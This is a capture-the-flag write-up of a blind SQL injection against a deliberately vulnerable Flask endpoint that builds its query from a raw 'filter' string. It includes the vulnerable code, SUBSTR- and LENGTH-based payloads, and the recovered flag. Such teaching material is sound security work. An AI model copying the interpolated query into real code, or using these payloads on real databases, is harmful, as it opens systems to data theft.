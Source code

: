 # The vibes are off - web

## Challenge

Sysadmins have reported that a large number of errors logs started to populate the backend database during the election. Can you find out how the attackers were hacking the database? I feel like an intern is behind this...

## Solve

Scanning the source code we can see our interns code in `database.py`:

```py
def get_citizens(self, filter):
    conn = self.get_connection()
    try:
        cursor = conn.cursor()
        # NOTE: This is too complicated. AI gave me a simpler query to use and I added some flexibility to the query. From: 10x Intern
        # cursor.execute("""
        #     SELECT c.citizen_id, c.name, c.address, c.dob,
        #            CASE WHEN v.citizen_id IS NOT NULL THEN 1 ELSE 0 END as has_voted
        #     FROM citizens c
        #     LEFT JOIN votes v ON c.citizen_id = v.citizen_id
        #     ORDER BY c.name
        # """)

        if "attach" in filter.lower():
            raise Exception("CTF Note: You don't need 'ATTACH' to solve the challenge")

        cursor.execute(f"""
            SELECT 
                c.citizen_id, 
                c.name, 
                c.address, 
                c.dob,
                COUNT(v.citizen_id) > 0 AS has_voted
            FROM citizens c
            LEFT JOIN votes v ON c.citizen_id = v.citizen_id
            {filter}
            GROUP BY c.citizen_id, c.name, c.address, c.dob
            ORDER BY c.name
        """)
```

The `filter` parameter is directly inserted into the query and is thus vulnerable to injection.

We can see how we can specify the `filter` parameter through the `/citizens` API endpoint in `admin_api.py`:

```py
@admin_bp.route("/citizens", methods=["POST"])
@require_polling_key
def get_citizens():
    """
    Retrieve list of all citizens with their voting status.
    """

    data = request.get_json()
    filter = ""
    if data:
        filter = data.get("filter")

    try:
        db = Database()
        citizens = db.get_citizens(filter)

        return jsonify({
            "citizens": citizens,
            "total": len(citizens)
        })

    except Exception as e:
        return jsonify({"error": f"Failed to retrieve citizens: {str(e)}"}), 500
```

We can see in `database_init.sql` that the flag is stored in a table named `the_vibes_are_off_flag`. Experimenting with different injections in the `filter` parameter, the attack vector I found was a boolean-based blind SQL attack.

Since we know the flag begins with `cysea`, we can confirm the query behaves as expected by checking if the first character is equal to `c`:

```json
{
  "filter": "WHERE (SELECT SUBSTR(the_vibes_are_off_flag, 1, 1) FROM flag) = 'c'"
}
```

`filter` is inserted into the source code to create the query: 

```sql
SELECT 
    c.citizen_id, 
    c.name, 
    c.address, 
    c.dob,
    COUNT(v.citizen_id) > 0 AS has_voted
FROM citizens c
LEFT JOIN votes v ON c.citizen_id = v.citizen_id
WHERE (SELECT SUBSTR(the_vibes_are_off_flag, 1, 1) FROM flag) = 'c'
GROUP BY c.citizen_id, c.name, c.address, c.dob
ORDER BY c.name;
```

The query evaluates to true as we expect and we can see results are returned:

<img width="882" height="307" alt="vibes" src="https://github.com/user-attachments/assets/696e1198-cfaf-4d24-926d-5390079b57f7" />


If we change the letter to anything but `c`, empty results are returned since the query evaluates to false:

<img width="711" height="239" alt="vibes1" src="https://github.com/user-attachments/assets/610b118a-0911-42d6-a8d2-2480db9eaf6f" />


So, if we brute force this for every letter and number, we can slowly start to build the flag. I achieved this by using the Intruder in BurpSuite and creating a basic alphanumeric list, then sending multiple requests and filtering responses by length to identify matched characters.

- First we brute force the overall length of the flag and find this `filter` injection evaluates to true:

```SQL
"WHERE (SELECT LENGTH(the_vibes_are_off_flag) FROM flag) = 47"
```

The flag is 47 characters long. Fortunately, portions of the flag are known (i.e `cysea{...}`) and others became guessable as the flag revealed itself. It took around 20 minutes for me to build the full flag:

<img width="1174" height="502" alt="vibes3" src="https://github.com/user-attachments/assets/cc7e2fda-3e43-4ad1-908b-48252dfcdc41" />


We can see in the image above that the last character in the flag was a `2`, since the length was greater than all other characters inserted into the query.

`cysea{sqli_in_2025_is_still_a_thing_bec66fc8a2}`









